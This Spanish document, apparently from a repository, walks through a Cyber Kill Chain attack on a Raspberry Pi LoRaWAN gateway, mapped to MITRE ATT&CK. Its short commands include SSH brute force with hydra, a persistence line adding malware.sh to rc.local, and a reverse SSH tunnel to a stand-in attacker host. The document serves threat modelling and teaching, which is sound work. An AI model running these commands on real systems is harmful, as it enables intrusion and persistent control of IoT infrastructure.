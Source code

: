 # Cyber Kill Chain - Ataque a Infraestructura LoRaWAN con Raspberry Pi y ESP32

## Introducción

Las redes **LoRaWAN** (Long Range Wide Area Network) son utilizadas para conectar dispositivos IoT en grandes áreas con bajo consumo de energía. Estas redes suelen emplear **cifrado AES-128** para proteger la comunicación entre los nodos y el servidor, pero aún pueden ser vulnerables a diversos ataques si no se implementan adecuadas medidas de seguridad.

### Posibles vulnerabilidades en LoRaWAN
1. **Ataques de repetición**: Un atacante puede capturar paquetes LoRa y retransmitirlos para ejecutar comandos falsos.
2. **Compromiso del gateway**: Si un atacante obtiene acceso al Raspberry Pi que actúa como gateway, puede manipular el tráfico LoRaWAN.
3. **Robo de claves de sesión**: Si el atacante obtiene las claves de cifrado, puede descifrar la comunicación LoRaWAN.
4. **Ataques de denegación de servicio (DoS)**: Mediante interferencia de radio o saturación de paquetes, se puede bloquear la red.

En este documento, describimos cómo un atacante podría comprometer un **Raspberry Pi 4**, que actúa como gateway LoRaWAN, con el objetivo de interceptar, modificar o falsificar la comunicación entre los nodos **ESP32 con SX1307** y el servidor LoRaWAN privado. Seguiremos las fases del modelo **Cyber Kill Chain**, detallando los métodos utilizados en cada etapa y cómo se llevaría a cabo el ataque.

### ¿Qué es un SDR?
Un **Software Defined Radio (SDR)** es un dispositivo que permite la captura y análisis de señales de radio utilizando software en lugar de hardware especializado. Los SDR son herramientas poderosas para evaluar la seguridad de redes inalámbricas como LoRaWAN, permitiendo a un atacante capturar paquetes, analizar señales y realizar ataques de replay o manipulación de datos.

#### Captura de señal LoRaWAN con SDR
![Captura de señal LoRaWAN](img/sdr.jpg)

#### Dispositivo de análisis de redes LoRaWAN
Un atacante puede usar dispositivos como el **RAK10701 Field Tester**, que permite detectar nodos LoRaWAN conectados a un gateway y analizar sus transmisiones.

![RAK10701 Field Tester](img/lorawanTester.png)

Más información sobre este dispositivo en: [RAK10701 Field Tester](https://store.rakwireless.com/products/field-tester-for-lorawan-rak10701)

---

## Cyber Kill Chain - Fases del Ataque

### 1. Reconocimiento (Reconnaissance)  
- **[T1595 - Active Scanning](https://attack.mitre.org/techniques/T1595/):**  
  - Escaneo de redes WiFi o Ethernet para identificar la Raspberry Pi y otros dispositivos en la red.  
  - Uso de `nmap` para detectar puertos abiertos (**22 SSH**, **1700 UDP LoRaWAN**).  
  ```bash
  nmap -sP 192.168.1.0/24
  ```
- **[T1590.002 - Gather Victim Network Information](https://attack.mitre.org/techniques/T1590/002/):**  
  - Identificación de servidores LoRaWAN privados.  
  - Análisis de tráfico LoRaWAN con SDR (Software Defined Radio).  

---

### 2. Armamento (Weaponization)  
- **[T1587.001 - Develop Capabilities: Malware](https://attack.mitre.org/techniques/T1587/001/):**  
  - Creación de malware para explotar vulnerabilidades en el Raspberry Pi.  
- **[T1203 - Exploitation for Client Execution](https://attack.mitre.org/techniques/T1203/):**  
  - Desarrollo de exploits para vulnerabilidades en el software del gateway.  
  - Creación de payloads maliciosos para obtener acceso remoto.  

---

### 3. Entrega (Delivery)  
- **[T1566.001 - Phishing: Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001/):**  
  - Envío de correos electrónicos con archivos adjuntos maliciosos a los administradores del gateway.  
- **[T1021.004 - Remote Services: SSH](https://attack.mitre.org/techniques/T1021/004/):**  
  - Ataques de fuerza bruta a SSH con `hydra`.  
  ```bash
  hydra -l pi -P rockyou.txt ssh://192.168.1.10
  ```

---

### 4. Explotación (Exploitation)  
- **[T1068 - Exploitation for Privilege Escalation](https://attack.mitre.org/techniques/T1068/):**  
  - Uso de exploits para obtener privilegios de root en el Raspberry Pi.  
- **[T1203 - Exploitation for Client Execution](https://attack.mitre.org/techniques/T1203/):**  
  - Ejecución de código remoto aprovechando vulnerabilidades.  

---

### 5. Instalación (Installation)  
- **[T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder](https://attack.mitre.org/techniques/T1547/001/):**  
  - Modificación de archivos de inicio para ejecución persistente del malware.  
  ```bash
  echo '/home/pi/malware.sh' >> /etc/rc.local
  ```
- **[T1554 - Compromise Client Software Binary](https://attack.mitre.org/techniques/T1554/):**  
  - Alteración de software legítimo del gateway para incluir código malicioso.  

---

### 6. Comando y Control (C2)  
- **[T1572 - Protocol Tunneling](https://attack.mitre.org/techniques/T1572/):**  
  - Uso de túneles SSH inversos para mantener acceso persistente.  
  ```bash
  ssh -R 9000:localhost:22 atacante@servidor.com
  ```
- **[T1102 - Web Service](https://attack.mitre.org/techniques/T1102/):**  
  - Uso de servicios como Telegram o Discord para recibir comandos.  

---

### 7. Acciones sobre Objetivos (Actions on Objectives)  
- **[T1071.001 - Application Layer Protocol: Web Protocols](https://attack.mitre.org/techniques/T1071/001/):**  
  - Captura y análisis de tráfico LoRaWAN.  
  ```bash
  tcpdump -i wlan0 port 1700
  ```
- **[T1565.002 - Data Manipulation: Transmitted Data Manipulation](https://attack.mitre.org/techniques/T1565/002/):**  
  - Modificación de datos LoRaWAN antes de ser reenviados al servidor.  
- **[T1498 - Network Denial of Service](https://attack.mitre.org/techniques/T1498/):**  
  - Saturación de la red con paquetes falsos para interrumpir la comunicación.  

---

